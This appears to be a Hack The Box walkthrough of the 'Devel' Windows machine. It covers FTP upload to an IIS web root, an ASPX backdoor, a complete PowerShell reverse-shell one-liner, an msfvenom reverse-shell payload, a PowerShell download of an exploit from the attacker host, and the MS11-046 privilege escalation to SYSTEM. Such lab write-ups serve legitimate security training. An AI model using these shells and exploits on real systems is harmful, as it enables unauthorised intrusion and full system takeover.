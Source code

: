 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[0.7:14.5]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.5
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.5 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 21,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.5 -p21,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 02:42 EDT
Nmap scan report for 10.10.10.5
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

### Microsoft ftpd

Access to ftp server and I saw this is the web folder, I tested put permission and I got it.

```
┌──(Hades㉿10.10.14.5)-[0.8:14.6]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put leecybersec.com
local: leecybersec.com remote: leecybersec.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
7 bytes sent in 0.00 secs (235.7220 kB/s)
ftp>
```

### Microsoft IIS httpd 7.5

```
### Web Enumeration (80) ############################
                                                                                                                                                                            
[+] Files and directories
gobuster dir -k -u http://10.10.10.5:80 -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                             
<snip>
===============================================================
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.10.10.5:80/aspnet_client/]
                                                                                         
<snip>

[+] All URLs
<title>IIS7</title>                                                                                                                                                         
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img src="welcome.png" alt="IIS7" width="571" height="411" /></a>
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Back to file `leecybersec.txt` puted via ftp service.

```
┌──(Hades㉿10.10.14.5)-[0.8:21.8]~/walkthrough/hackthebox/devel
└─$ curl 10.10.10.5/leecybersec.txt  
hades
```

## Foothold

### Aspx Backdoor

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

I upload `backdoor.aspx` to server via ftp service and get a backdoor in the web application.

```
┌──(Hades㉿10.10.14.5)-[0.8:22.5]~/walkthrough/hackthebox/devel
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
<snip>
ftp> put backdoor.aspx
local: backdoor.aspx remote: backdoor.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1663 bytes sent in 0.00 secs (14.2879 MB/s)
ftp>
```

![](images/2.png)

Using `Powershell` to get reverse shell in the server.

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](images/3.png)

### Aspx Revershell

Create reverse shell with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f aspx > shell.aspx
```

Open listener in Kali machine

```
sudo nc -nvlp 443
```

Upload file `shell.aspx` to web server using ftp service and execute this file.

```
curl 10.10.10.5/shell.aspx
```

![](images/4.png)

## Privilege Escalation

### Vulnerability in Ancillary Function Driver

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Enum system info 

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

The OS Version is `6.1.7600 N/A Build 7600` have MS11-046: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege.

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)

![](images/5.png)

Download this exploit and compile to binary execution.

```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload `40564.exe` to Devel using ftp service and execute it.

```
c:\inetpub\wwwroot>whoami
whoami
iis apppool\web

c:\inetpub\wwwroot>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/devel)

Also upload with `fileupload.aspx` or `powershell`.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/40564.exe','C:\Users\Public\shell.exe')"
```

```
c:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Public

<snip>
01/04/2021  12:10 ��           250.562 shell.exe

               1 File(s)        250.562 bytes
               8 Dir(s)  22.278.094.848 bytes free

c:\Users\Public>shell.exe
shell.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```